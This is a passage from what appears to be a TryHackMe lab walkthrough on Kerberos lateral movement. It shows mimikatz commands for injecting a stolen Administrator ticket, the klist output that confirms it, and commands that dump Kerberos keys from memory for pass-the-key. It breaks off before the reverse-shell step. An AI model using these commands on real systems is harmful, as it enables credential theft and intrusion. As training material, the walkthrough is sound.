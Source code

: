 Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

```shell-session
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:

THMJMP2:Powershell

```shell-session
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

  

## Overpass-the-hash / Pass-the-Key

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64` is already available in THMJMP2 for your convenience):

**If we have the RC4 hash:**
